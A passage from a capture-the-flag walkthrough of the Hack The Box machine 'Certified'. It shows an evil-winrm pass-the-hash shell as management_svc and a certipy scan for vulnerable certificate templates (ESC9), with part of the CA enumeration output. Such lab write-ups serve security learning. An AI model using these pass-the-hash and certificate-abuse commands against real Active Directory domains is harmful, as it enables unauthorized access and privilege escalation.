 And yes it says pwned, using evil-winrm to get a shell as **management_svc**.

```bash
evil-winrm -i 10.129.231.186 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```

![image.png](/assets/images/Certified_HTB/image%2020.png)

Grabbing that user.txt and submitting it.

## Privilege Escalation

As the name of the box suggests **“CERTIFIED”** , I thought **Cerificate service** is running on the box and I was correct.

### ESC9

Running certipy to find the CA and the vulnerable templates.

```bash
certipy find -u 'ca_operator' -hashes 'b4b86f45c6018f1b664f70805f45d8f2' -dc-ip '10.129.231.186' -vulnerable -text -enabled
```

![image.png](/assets/images/Certified_HTB/image%2021.png)

Looking at the results we have this data.

```text
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
```